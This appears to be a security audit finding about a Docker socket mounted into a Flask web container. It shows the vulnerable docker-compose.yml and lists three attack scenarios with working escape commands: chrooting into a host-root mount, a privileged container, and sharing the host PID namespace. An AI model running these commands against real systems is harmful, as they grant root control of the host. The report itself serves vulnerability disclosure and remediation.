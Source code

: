 
## Critical Vulnerabilities

### CVE-FC-007: Docker Socket Mount Container Escape
**File:** [`docker-compose.yml`](docker-compose.yml:25)  
**Severity:** Critical  
**CVSS Score:** 10.0  
**OWASP Category:** A06 - Vulnerable and Outdated Components

**Description:**  
The Docker socket (`/var/run/docker.sock`) is mounted directly into the application container, providing unrestricted access to the Docker daemon and enabling complete host system compromise through container escape techniques.

**Vulnerable Configuration:**
```yaml
# docker-compose.yml
version: '3.8'
services:
  web:
    build:
      context: .
      dockerfile: web.Dockerfile
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock  # CRITICAL VULNERABILITY
      - ./data:/app/data
    ports:
      - "5000:5000"
    environment:
      - FLASK_ENV=production
```

**Attack Scenarios:**

1. **Direct Host System Access:**
```bash
# From within the compromised container
docker run -it --rm -v /:/host ubuntu chroot /host /bin/bash
# Attacker now has root access to host system
```

2. **Privileged Container Creation:**
```bash
# Create privileged container with host access
docker run -it --rm --privileged -v /:/host ubuntu
# Mount host filesystem and escape container boundaries
```

3. **Host Process Manipulation:**
```bash
# Access host processes from container
docker run -it --rm --pid=host ubuntu
# Can kill host processes, access host memory
```
